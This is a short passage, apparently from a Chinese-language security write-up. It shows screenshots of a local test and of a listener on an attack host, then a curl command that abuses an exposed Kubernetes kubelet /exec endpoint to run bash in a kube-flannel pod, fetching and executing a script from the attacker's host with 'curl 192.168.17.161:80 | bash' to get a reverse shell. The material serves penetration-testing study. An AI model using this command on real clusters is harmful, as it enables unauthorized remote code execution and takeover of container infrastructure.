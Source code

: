 [![](assets/1701826061-f5db2883d1ee300a9158018f6d7eeed2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171203-8f8ed894-7316-1.png)  
在本地浏览器中进行简单测试：

[![](assets/1701826061-17ac8f68ba5a6552b08a2c1fea409da1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171216-976efa26-7316-1.png)  
之后在攻击主机上监听：  
[![](assets/1701826061-aaf067896e9f9f0c2b4d4df4db743583.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171228-9e83b734-7316-1.png)  
之后进行反弹 shell 操作：

```bash
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.17.144:10250/exec/kube-system/kube-flannel-ds-xwk2t/kube-flannel?command=/bin/bash&command=-c&command=curl+192.168.17.161:80+|+bash&input=1&output=1&tty=1"
```
